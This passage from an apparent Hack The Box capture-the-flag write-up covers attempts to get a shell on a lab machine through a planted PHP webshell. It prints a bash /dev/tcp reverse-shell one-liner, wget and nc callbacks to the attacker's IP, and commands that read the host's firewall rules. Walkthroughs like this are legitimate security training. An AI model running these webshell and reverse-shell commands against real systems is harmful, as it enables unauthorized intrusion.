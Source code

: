 #### No Reverse Shell

I wasn’t able to get a full shell from this. It seems that perhaps the firewall is not allowing traffic out? All of these either hung or returned instantly:

```

root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=bash -c 'bash -i >& /dev/tcp/10.10.14.4/443 0>&1'"
^C
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=wget http://10.10.14.4:443"
^C
root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/VC9II.php --data-urlencode "c=nc 10.10.14.4 443"
^C

```

I can pull the `iptables` rules:

```

root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=find /etc/iptables -type f'
/etc/iptables/rules.v4
root@kali# curl -s http://10.10.10.207/shop/vqmod/xml/ASZL5.php --data-urlencode 'c=cat /etc/iptables/rules.v4'
# Generated by iptables-save v1.6.1 on Mon May 11 02:27:29 2020
*filter
:INPUT DROP [6:1032]
:FORWARD DROP [0:0]
:OUTPUT DROP [5:394]
-A INPUT -i lo -j ACCEPT
-A INPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -m tcp -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -m tcp -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 0 -j ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -j ACCEPT
-A OUTPUT -m state --state RELATED,ESTABLISHED -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -m tcp -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -m tcp -j ACCEPT
COMMIT
# Completed on Mon May 11 02:27:29 2020

```

Inbound only established, 22, and 80 are allowed. Outbound only established and source port 22 and 80 (coming from SSH and HTTP). Anything I’d want to send outbound will be blocked. Still, this webshell is enough to run `mysql` commands through. Alternatively, I could write a forward shell (using Ippsec’s technique like I’ve shown several times, including [Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell) - Ippsec will show this in his [Compromised video](https://www.youtube.com/watch?v=yaV09XCDDqI)), or just root from here (see [Beyond Root](#beyond-root---root-from-webshell)).
